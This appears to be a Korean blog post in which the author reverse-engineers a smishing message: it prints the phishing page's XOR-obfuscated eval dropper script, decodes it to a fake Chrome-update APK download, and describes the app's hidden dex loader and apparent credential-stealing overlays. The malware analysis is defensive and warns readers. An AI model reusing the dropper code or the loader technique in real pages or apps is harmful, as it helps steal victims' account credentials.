# SMS 피싱 메시지 리버싱 해보기

## 사건의 발단

어느 평화로운 오후...저에게 의문의 메시지가 하나 도착했습니다.



택배 올 일이 실제로 있긴 했었는데, 되게 문자 메시지를 보면 수상한 점이 많습니다.

1. 내용으로 봐서는 택배 아저씨가 보낸 게 아닌데 번호가 010으로 시작함.
2. 맞춤법이 이상한데? (올바른 맞춤법은 "구매한 상품은 CJ익스프레스를 통해 배송됩니다.")
3. 링크가 `tinyurl`? 딱 봐도 url 길이 줄여주는 서비스가 분명한데, 왜 CJ 자사 서비스나 그냥 홈페이지 링크를 안 쓰고 이걸...?

컴퓨터 전공한 사람의 감이 말해줍니다. **누가 봐도 이건 피싱이네!** 그래서 낚여주기로 합니다.

> 저는 
>
> 1. 해킹에 대해서도 어느정도 공부했으며
> 2. 사실 전에도 이런 짓 많이 해 봤고
> 3. 자료를 잘 백업하고 있으며
> 4. 독립된 환경에서 실험을 수행했습니다.
>
> 이 글을 보시는 다른 분들께서는 **따라하시면 안 됩니다.**
>
> 혹시 너무너무 해보고싶다! 하시는 분을은 VMWare, Virtual Box 등을 설치하신 후 가상 머신 위에서 실험하시기 바랍니다.

## 낚여 주기

먼저 이건 모바일을 대상으로 한 공격이 분명하므로 함부로 모바일에서 열어서는 안 됩니다. 그래서 메시지 내용을 PC로 전송한 후에, Chrome에서 Guest계정으로 시크릿 모드를 적용한 후에 열어봤습니다. 

물론 모바일을 대상으로 한 공격이었기 때문에 PC버전으로 열었을 때에는 아무런 반응이 없었습니다.



여기서 실망하지 않고, 가볍게 개발자 도구를 통해 모바일 버전으로 다시 열어줍니다.



되기는 되는데요...이...이게모고...

제가 보기엔 외국 업체에서 한국인에게 돈을 주고 번역을 맡겼는데, 그 번역을 한 한국인이 최소한의 양심은 있어서 일부러 맞춤법을 틀리게 쓴 것이 아닌가...생각됩니다. 아무리 생각해도 저 맞춤법 오류는 절대로 번역기에서는 나올 수가 없고, 네이티브 한국인만이 할 수 있는 오류입니다.

이 페이지의 소스코드는 아래와 같았습니다.

```html
<html>
<head>
    <title></title>
</head>
<body>
<div>
    <script>
        var arr = "64200,64197,64204,64219,64221,64129,64139,18941,64137,18970,15849,64137,15285,17645,14349,64137,13853,12145,15853,64137,15789,12253,64137,64137,12277,13468,64137,22197,15241,20149,64137,64202,64193,64219,64198,64196,64204,64137,14325,14409,17965,12973,15853,64137,16236,18905,15837,10257,64137,12273,14453,21657,64137,18109,19748,18529,18509,64135,64139,64128,64146,64163,64137,64137,64137,64137,64137,64137,64137,64137,64197,64198,64202,64200,64221,64192,64198,64199,64135,64219,64204,64217,64197,64200,64202,64204,64129,64139,64134,64207,64220,64203,64220,64197,64207,64220,64192,64198,64194,64135,64200,64217,64194,64139,64128,64146,64169".split(',').map(function(a){return a|0});
        var b = arr[arr.length-1];
        for(var i=0;i<arr.length-1;i++) {
            arr[i] =arr[i]^b;
        }
        arr.pop();
        eval(String.fromCharCode(...arr));
    </script>
</div>
</body>
</html>
```

예...뭐 누가 보더라도 소스코드를 XOR암호화한 뒤 숫자로 변환, 문자열로 변환해 놓은 거네요...자바스크립트로 디코딩한 후 eval로 실행하나봅니다. `eval`함수의 위험성을 여기서 또 알 수 있네요. 제가 보기에는 소스코드에 리터럴만을 인자로 받지 않는 `eval`함수가 존재한다는 것만으로도 악성 코드로 판단할 수 있다고 생각합니다.

위 소스를 그대로 사용해서 디코딩해봤더니 다음과 같은 내용이 나왔습니다.

```javascript
alert("더 낳은 서비스 체험을 위해  한층 개선된 chrome 최신버전을 업데이트 하시기 바랍니다.");
        location.replace("/fubulfuiok.apk");
```

근데 이걸 굳이 암호화를...? 굳이?

예...뭐...

OK를 눌러봤더니 apk하나가 자동으로 다운로드가 되는군요. 



리퀘스트를 통해 정보를 빼간다거나 하는 시도는 없는 것 같았습니다.

(위 스샷에서 remote address가 보이기는 하는데...굳이 저기 접속해보실 분은 없을 거라 믿습니다.)

## 어플리케이션 리버싱

안드로이드 좀 해 봤다, 하면 아시겠지만 apk 파일은 그냥 압축파일에 불과합니다. 압축을 풀어서 앱 내부를 들여다봤더니 아래와 같은 런쳐 아이콘을 발견할 수 있었습니다. 메시지와 같이 크롬 최신 버전으로 위장할 생각이었나 봅니다.



물론 APK파일을 압축 해제한다고 해서 소스코드를 뜯어볼 수 있는 건 아닙니다. apk파일 내부에는 dex라는 형식으로 class파일들이 패키징돼있고, 이걸 다시 class파일로 돌린 후 class파일을 디컴파일해야만 소스를 볼 수 있습니다. 저는 예전에 사용하던 `dex2jar` 프로그램을 사용하여 dex파일을 class파일로 돌렸고, 이후 `JD-GUI`를 사용하여 디컴파일을 수행했습니다.



 위와 같이, 당연하게도 난독화가 되어 있는 소스코드를 확인할 수 있었습니다. 근데 코딩 하루이틀 하는 것도 아니고, 저렇게 줄글마냥 위에서 밑으로 이쁘게 코드가 써져 있어서 함수 이름이나 변수 이름을 안 보고도 어떤 코드인지를 바로 유추할 수가 있었습니다. 이것 역시 내부적으로 `et`디렉토리에 있는 첫 번째 파일을 읽는데, 얘도 XOR로 암호화된 파일입니다. 이걸 다시 복호화한 후 dex 로더를 사용하여 동적으로 클래스를 로딩, 실행하는 소스코드로 보입니다. 즉, 이 소스코드 자체는 그냥 다른 코드를 로드하는 로더에 불과하고, 진짜 악성 프로그램은 `et`디렉토리 내부에 있다는 그 파일일 것입니다.

 사실 이런 수법은 백신을 피하기 위해서 아주 빈번히 사용되는 수법입니다. 더 발전하면 악성코드를 인터넷을 통해서 다운받는 경우도 있는데, 이 앱은 그렇게까진 하지 않아서 리버싱이 좀 더 쉬워졌습니다.

 어쨌든 `et`디렉토리를 한번 까 본 결과, 아래와 같이 딱 하나의 파일을 발견할 수 있었습니다.



 그러면 이제 이 파일이 본격적인 악성 코드임을 짐작할 수 있습니다. 그래서 이걸 복호화를 한 번 해 봤습니다. 복호화는 위의 허술하게 난독화된 소스코드를 약-간 수정해서 사용했습니다. 위 소스코드를 살펴보면 출력 파일 위치를 `getFilesDir`함수를 사용하여 가져오는데(안드로이드에서 지원하는 함수입니다), 그냥 이걸 "./"로 바꿔주기만 하면 됩니다. (그리고 약간의 예외 처리가 필요합니다.)

 그렇게 해서 성공적으로 저 파일을 복호화하고, 메모장으로 열어보려던 찰나?



얼라리용...요새는 메모장도 많이 똑똑해졌나봅니다. 악성 스크립트라면서 아예 여는 것 자체가 불가능하네요. 그래서 그냥 콘솔로 처음 10바이트를 찍어봤습니다. 처음 10바이트만 찍어 본 이유는, 

보통 파일에서  처음 2~4바이트는 magic number라고 해서, 파일의 종류를 알 수 있게 해 주는 ASCII 문자열이 들어가있기 때문입니다. 만약 magic number가 아예 안 보인다면 뭔가 잘못된 거라고 판단해볼 수 있습니다.



 저는 공격자들이 만들어둔 소스를 그대로 복붙했기 때문에 당연하게도 그럴 일은 없습니다. magic number를 검색해볼 필요도 없이, `dex`파일 형식인 것을 아주 잘 알 수 있습니다.



`dex`파일은 아까 apk를 깔 때 이용했던 `dex2jar`를 사용하여 쉽게 열어볼 수 있습니다. 다만 이건 뭔가 꼼수를 써 놓았는지, 아니면 동적으로 로딩하는 소스코드라 그런지 깔끔하게 디컴파일되지는 않고 에러가 발생했습니다. 어쨌든 디컴파일이 아예 안 되는 건 아니라서 그 결과물을 열어봤습니다.



와우...파일 개수가 엄청납니다. 스크롤 바 길이를 보면 아시겠지만, 지금 보이는 것보다 세 배는 더 있습니다. 제가 열어보지 않은 패키지들도 많으니 아마 파일 개수는 보이는 것보다 훨씬 더 많을 것입니다. (다만 대부분의 파일들은 인터페이스여서, 메서드 한 개 밖에 없는 그런 파일들이었습니다.)

## 어플 목적 추측하기

음...저도 저 많은 난독화된 코드를 해석하고 싶지는 않았습니다. 그래서 리터럴 위주로 대-충 훑어보니, **이 프로그램의 목적은 은행 계좌 비밀번호, 게임 계정 등을 비롯한 개인정보 탈취로 보입니다.** 예를 들어 이 소스코드를 보니 아래와 같은 일본어 문자열을 발견할 수 있었습니다.



아무리 봐도 보이스피싱에서나 쓸 것 같은 멘트입니다. 또 아래와 같은 한국어 문자열도 발견할 수 있었습니다.

```javascript
ss1Err.innerText='10~16자 / 영문+숫자or특수문자 조합이여야 합니다.'
```

영문+숫자 or 특수문자로 이루어진 10~16자 문자열이 대체 뭘까요? 누가 봐도 비밀번호입니다. 그러므로 이 어플리케이션은 유저가 비밀번호를 입력하는 것을 전제로 만들어진 어플리케이션임을 쉽게 알 수 있습니다. 그러므로 당연히 개인정보 탈취를 위한 어플이겠군요.



할말하않.

또 다른 부분에서는 이런 소스코드도 발견됐습니다.



 Class 자체도 final이고 요소들도 전부 final로 선언된 것으로 보아 상수들을 저장하는 클래스인가 봅니다. 문자열들을 자세히 보면 일반적인 웹 주소로 보이는 문자열들이 거꾸로 저장돼있는데, 이건 웹 주소가 아니라 **어플리케이션 패키지 이름**일 가능성이 높습니다.(패키지 이름을 보통 저런 식으로 큰 범위에서 작은 범위 순서, 마치 도메인을 뒤집은 것 같은 형식으로 만듭니다.) 이게 만약 웹 주소라면 google이나 happymoney라는 최상위 도메인이 있다는 소린데, 한 번도 들어본 적이 없습니다. 그리고 난독화를 위해서 저렇게 할 가능성도 낮은 것이, 하려면 차라리 통째로 좌우로 뒤집지 굳이 저렇게 할 이유가 없어보입니다.

이로부터 다시 추론해보건대, 이 어플리케이션은 위 리스트에 나열된 어플리케이션들이 켜지는 순간을 감지해서 그 위를 덮어쓴 후, 로그인을 유도하는 기능이 있지 않겠나, 싶습니다. 위험하네요.



와...세계 각국의 언어로 로그인을 유도하는 메시지가 있습니다. 한글 메시지가 상당히 위쪽에 있는데 이걸 한국의 위상이 높아졌다고 자랑스러워해야 되는지 모르겠습니다.

 저도 확신할 수는 없습니다만, 소스코드의 다른 부분에는 SMS관련된 메서드들도 보였습니다. 인증 번호 등을 탈취하는 기능을 가지고 있을 가능성도 충분히 있어보입니다.

## 결론

오늘 낮에 뜬금없이 날아온 피싱 문자를 리버스 엔지니어링하여 그 목적을 알아봤습니다. 결론적으로 이 프로그램은 게임, 구글, 은행 등의 계정을 탈취하기 위한 프로그램임을 알게 됐지만, 이런 짓을 시도한 단체가 누구인지, 어디로 정보를 보내는지 등은 알아내지 못했습니다.

 저는 이런 피싱에 익숙해서 다행히 프로그램을 까 보는 정도로 넘어갔습니다. 그러나 이 프로그램은 나이가 드신 분이라거나 이런 것에 대해 잘 모르시는 분이라면 정말로 정보가 탈탈 털릴 수도 있는 위험한 프로그램입니다. 이 글을 보시는 분들은 절대로 모르는 사람에게서 날아온 링크를 열지 마시고, 혹시 실수로 열었다고 하더라도 탭 닫기 기능을 사용하여 바로 닫아버리시기 바랍니다.

 그리고 출처를 모르는 어플리케이션은 절대로 설치해서는 안 됩니다. 혹시라도 그런 어플리케이션을 설치한 후 다른 앱들이 비정상적으로 작동(e.g. 갑자기 로그아웃됨)등의 증상을 보일 경우 함부로 로그인하지 마시고 전문가(?)의 진단을 받으시기 바랍니다.

